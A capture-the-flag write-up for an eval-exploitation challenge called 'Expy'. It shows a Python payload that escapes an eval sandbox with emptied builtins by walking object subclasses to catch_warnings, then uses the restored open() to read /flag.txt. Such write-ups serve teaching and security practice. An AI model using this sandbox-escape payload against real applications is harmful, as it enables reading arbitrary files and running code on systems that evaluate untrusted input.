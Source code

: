 # Expy

### Problem 

This is an `eval` exploitation challenge. We need to read the flag file. 

### Solution

`'__builtins__': {}` prevents all the in built functions from running, including `open()`. 

However, the Python eval function is very vulnerable, so we can regain access to the builtins very easily by using this: 
```py
[
    c for c in ().__class__.__base__.__subclasses__()
    if c.__name__ == 'catch_warnings'
][0]()._module.__builtins__
```

Then the payload would simply be: 
```py
[
    c for c in ().__class__.__base__.__subclasses__()
    if c.__name__ == 'catch_warnings'
][0]()._module.__builtins__['open']('/flag.txt').read()
```


Our flag is then `CTF{eval_is_never_safe_ever}`